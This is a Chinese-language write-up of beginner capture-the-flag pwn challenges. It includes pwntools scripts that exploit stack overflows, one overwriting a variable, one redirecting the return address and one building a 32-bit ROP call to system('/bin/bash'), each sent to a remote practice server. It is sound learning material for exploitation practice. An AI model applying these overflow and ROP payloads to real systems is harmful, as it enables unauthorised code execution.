

##  get shell

本题是签到题
只需要连接远程端口，然后直接输入指令就可以了。

- way 1

  ```bash
  nc -nv ip port 
  cat flag
  ```

- 方法2 , 使用 pwntools

  ```python
  #coding = utf-8
  from pwn import *
  
  context.log_level = 'debug'
  io = remote('111.198.29.45', 54766)
  io.sendline('ls')
  io.sendline('cat flag')
  io.interactive()
  ```

## when_did_you_born

首先使用 checksec 查看程序，发现程序开启了栈运行保护和canary。
然后直接使用 ghidra 反汇编二进制文件。通过字符串定位搜索找到程序入口 main 函数，直接读反编译源码。
找到关键代码如下：

```c
  do {
    iVar1 = getchar();
  } while (iVar1 != 10);
  if (input_name[0] == 0x786) {
    puts("You Cannot Born In 1926!");
  }
  else {
    puts("What\'s Your Name?");
    gets(local_28);
    printf("You Are Born In %d\n",(ulong)input_name[0]);
    if (input_name[0] == 0x786) {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
  }
```

查看程序执行流程可以发现，程序首先检查输入年龄是否为 1926，如果是就结束。
否则继续输入名称，gets 函数读入名称可能会造成栈溢出。
随便输入一个超长字符串，果然栈溢出了，但是由于开启了 canary ，因此报错如下：


然后想使用字符串填充的方式获得需要输入的payload，因为对缓冲区溢出的方向并不知道。

```bash
1234567890112233445566778899001112223334445556667778889990001111222233334444555566667777888899990000
```

后面发现自己这一步绕了很大的圈子。其实 name 和 age 是两个局部变量，只需要查看在栈上的相对地址即可确定。
使用 ghidra 查看两个局部函数的相对地址。

二者对应在栈中的布局如下：


需要记住的是，**小端序中，栈溢出的方向是从低地址向高地址**。
接下来就是一些 pwntools 的漏洞利用技巧

```python
from pwn import *
r=remote("111.198.29.45",33469)
payload='a'*(0x20-0x18)+p64(1926)
r.recvuntil("What's Your Birth?\n")
r.sendline("0")
r.recvuntil("What's Your Name?\n")
r.sendline(payload)
print r.recv()
print r.recv()
#r.interactive()
```

## hello_pwn

这题很简单，直接下载附件使用 ghidra ，定位到main函数如下：


如图可以发现 main 函数读取一个字符串到内存中，然后检查字符串的结尾段是不是 aaun。因此随便构造一个 payload 如下即可。

```bash
a*(DAT_0060106c - DAT_00601068-) + aaun 
```

例如 aaaaaaun ，就可以成功执行 cat flag 的指令。


## level0

直接查看 main 函数，非常粗暴，直接就是调用一个漏洞函数vulnerable_function,
函数vulnerable_function 也很粗暴，直接向一个  0x80 大小的字符串数组中写入一个 0x200 的字符串。那可不就得栈溢出吗 !
因为局部变量非常简单，就一个字符串，直接构造 payload 。 


函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。
观察上图中可知，局部变量只有字符串数组一个，压栈的寄存器只有ebp。因此构造的payload如下。

```python
from pwn import * 
r = remote("111.198.29.45",48316)#远程连接
#'a'*0x8是填充ebp，p64(0x00400596)是填充ret
payload = 'A' * 0x80 + 'a' * 0x8 + p64(0x00400596)
r.recvuntil("Hello, World\n")#直到接收到Hello,World才执行后面的操作
r.sendline(payload)#发送一行数据
r.interactive()#交互shell
```

函数执行 ret 指令的时候，相当于执行 `pop ip`
函数执行 LEAVE  指令时，恢复了过程被调用时 ESP 和 EBP 的值，结束了被调用过程的栈帧。
此处还有个问题，此处的 `0x00400596` 的地址，直接在 ghidra 中打开就是这个地址，因此有两种可能：
1. ghidra 模仿了程序在加载到内存中的过程，加载的起始地址，就是内部相对地址。
2. 程序在链接的过程中就把相对地址直接硬编码到程序中了（感觉这种可能性不大）

## level2

开头就有个坑，因为前面几个题目都是 x64 ，因此本题先入为主的就认为也是 x64 的程序。但是后面才发现程序是 32 位的，这直接关系到 payload 的构造，因此还是应该更加慎重一些。


本题中题目给的提示十分直接明了，构造rop链，执行system('/bin/bash')，拿到shell，即可获得执行 cat flag 的权限。

首先找到 main 函数进行分析，可以发现 main 函数直接简单粗暴的调用了漏洞函数，进一步查看漏洞函数，发现程序向一个大小为 0x88  的字符串数组，输入一个 0x100 的字符串。这铁定得溢出啊，接下来就是构造 rop 调用 system 函数了。


**函数地址：**
直接查看到 system 函数存在本程序的 plt 表中，那就简单太多了，直接获取到 system@plt 函数对应的解析地址，因为 system@plt是一个内部函数，因此使用相对地址即可。
此处注意区分外部导入函数 system ，和内部函数 system@plt。

**内部函数 system@plt**


**外部导入函数**


**参数：**
查找字符串发现'/bin/bash'，存在于程序数据段，直接拿来用。


因此构造出来的 payload 如下

```bash
0x88+ 0x4*1+ p32(system_addr) + p32(0) + p32(字符串_addr)
```

这里还有一个需要注意的问题，这个函数的调用只传了一个参数，注意多个参数传递时候的顺序问题。


## 问题

- 函数调用栈中，函数调用栈压栈顺序为：参数、返回值、寄存器、局部变量。那么返回值和寄存器是什么时候压栈的，是在 caller 中，还是在 callee 中？
  返回值是在执行 call function 的时候，将返回值入栈的。寄存器的保存和恢复是在 callee 中完成的。
- **内部函数如何相互调用？是怎么找到对应的相对地址的？** 

## 参考

- [攻防世界XCTF-Pwn入门11题解题报告](https://zhuanlan.zhihu.com/p/113052039)

## 体会

之前一直不知道找函数漏洞的目的是什么，现在理解的利用结果就是 get shell ，菜鸡入门，仍需努力。

- 成功执行 system('/bin/bash')
- 成功执行 cat flag 相关函数。